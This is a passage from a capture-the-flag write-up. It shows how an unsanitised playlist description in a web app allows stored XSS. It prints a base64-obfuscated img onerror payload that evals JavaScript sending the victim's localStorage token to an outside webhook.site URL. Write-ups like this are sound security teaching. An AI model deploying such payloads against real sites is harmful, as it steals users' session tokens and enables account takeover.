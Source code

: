 `packages/server/src/renderHtml.mts`
```typescript
import { micromark } from "micromark";

export function renderHtml(content: string): string {
	return micromark(content);
}
```

`Show` and `Episode` descriptions were sanitized:

![](https://i.imgur.com/KqBgu8o.png)

But the `playlist`'s description wasn't, it directly called the database:

![](https://i.imgur.com/sBYk6OY.png)

## Solution preparation

Now we have everything to get the flag. Let's create an XSS on the playlist description that will that will execute following javascript:

```javascript
navigator.sendBeacon("https://webhook.site/8174d521-9d17-4770-8330-7b6018d510cb", window.localStorage.token)
```

Now we can `btoa` our JS to make it execute on eval:

```javascript
btoa(`navigator.sendBeacon("https://webhook.site/777a0f22-84c4-4e6c-8905-35bb90a187fc", window.localStorage.token)`)
// out: 'bmF2aWdhdG9yLnNlbmRCZWFjb24oImh0dHBzOi8vd2ViaG9vay5zaXRlLzc3N2EwZjIyLTg0YzQtNGU2Yy04OTA1LTM1YmI5MGExODdmYyIsIHdpbmRvdy5sb2NhbFN0b3JhZ2UudG9rZW4p'
```

And we have our final payload using standard `img` xss, which firstly decodes the JS from base64, and `eval`s it:

```html
<img src=x onerror=eval(atob("bmF2aWdhdG9yLnNlbmRCZWFjb24oImh0dHBzOi8vd2ViaG9vay5zaXRlLzc3N2EwZjIyLTg0YzQtNGU2Yy04OTA1LTM1YmI5MGExODdmYyIsIHdpbmRvdy5sb2NhbFN0b3JhZ2UudG9rZW4p"))>
```

---

## Putting all together

0. Registering a new user:

![](https://i.imgur.com/LmJvV8Z.png)


1. Creating the playlist with payload description:

![](https://i.imgur.com/hutqUIH.png)
